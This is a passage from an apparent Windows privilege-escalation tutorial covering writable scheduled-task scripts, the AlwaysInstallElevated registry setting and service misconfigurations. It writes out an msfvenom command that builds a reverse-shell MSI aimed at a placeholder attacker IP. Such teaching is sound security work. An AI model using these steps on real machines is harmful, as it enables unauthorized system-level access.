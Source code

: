 ```
```

If our current user can modify or overwrite the `Task to Run` executable, we can control what gets executed by the user, resulting in a simple privilege escalation.
To check the file permissions on the executable, we use `icacls` like so: `icacls c:\tasks\schtask.bat`.

Example output:

```
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the `BUILTIN\Users` group has `full access (F)` over the task's binary.
This means we can modify the .bat file and insert any payload we like.
All that's left to do is change the bat file to spawn a reverse shell.

### AlwaysInstallElevated (.msi files run with elevated privileges)
Windows installer files (also known as `.msi` files) are used to install applications on the system and usually run with the privilege level of the user that starts it.
However, these can be configured to run with higher privileges from any user account (even unprivileged ones).
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method `requires two registry values to be set`.
You can query these from the command line using the commands below.
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

If these are set, you can generate a malicious .msi file using msfvenom:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

## Abusing Service Misconfigurations
### What are Windows Services?
- Services are `background processes that run without user interaction`.
- They `often start automatically` and `run with system-level privileges` (e.g., LocalSystem, LocalService, or NetworkService accounts).
- Misconfigured services can allow attackers to escalate privileges by abusing their properties.

Windows services are managed by the `Service Control Manager (SCM)`.
The SCM is a process in charge of managing the state of services as needed, `checking the current status of any given service` and generally `providing a way to configure services`.
Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started.
It is important to note that `service executables implement special functions` to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully.
`Each service also specifies the user account under which the service will run`.
To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:
